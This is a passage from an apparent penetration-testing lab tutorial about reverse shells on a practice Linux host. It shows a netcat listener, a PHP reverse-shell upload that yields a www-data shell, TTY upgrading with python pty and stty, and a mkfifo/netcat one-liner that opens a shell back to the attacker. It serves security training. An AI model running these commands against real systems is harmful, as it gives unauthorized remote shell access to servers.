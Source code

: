 Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}

Use `firefox` to login to the url `http://<ip>`, browse the `php-reverse-shell.php` payload and submit. Access the url `http://<ip>/uploads/php-reverse-shell.php` to activate the `reverse shell`.

The `reverse shell` would have spawned at the netcat listener.
{% capture code %}{% raw %}Connection from <target-ip> 59564 received!
Linux linux-shell-practice 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:00:56 up 50 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shell    pts/0    <ip>    04:25   20:16   0.07s  0.02s python3 -c import pty ; pty.spawn("/bin/bash")
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `python` to spawn `bash` shell. Background the `netcat` listener in attacking machine to sanitise the `reverse shell`.
{% capture code %}{% raw %}$ python3 -c 'import pty ; pty.spawn("/bin/bash")'
www-data@linux-shell-practice:/$ ^Z
[1]+  Stopped                 nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

Turn off `echo` in shell and foreground it so the `reverse shell` in attacking machine can show the output properly inside `netcat` listener.
{% capture code %}{% raw %}stty raw -echo ; fg{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained. TTY rows and columns can also be set so `vim` or `nano` editor will be aligned according to shell resolution.
{% capture code %}{% raw %}nc -lnvp 443

www-data@linux-shell-practice:/$ ^C
www-data@linux-shell-practice:/$ stty rows 34
www-data@linux-shell-practice:/$ stty cols 169
www-data@linux-shell-practice:/$ exit{% endraw %}{% endcapture %} {%include code.html code=code %}


### Reverse Netcat Shell - Linux

Create a `netcat` listener in attacking machine.
{% capture code %}{% raw %}nc -lnvp 443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained, which mentions the listener is active.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443){% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `reverse shell` from the target.
{% capture code %}{% raw %}mkfifo /tmp/f ; nc <local-ip> 443 </tmp/f | /bin/sh > /tmp/f 2>&1 ; rm -f /tmp/f{% endraw %}{% endcapture %} {%include code.html code=code %}

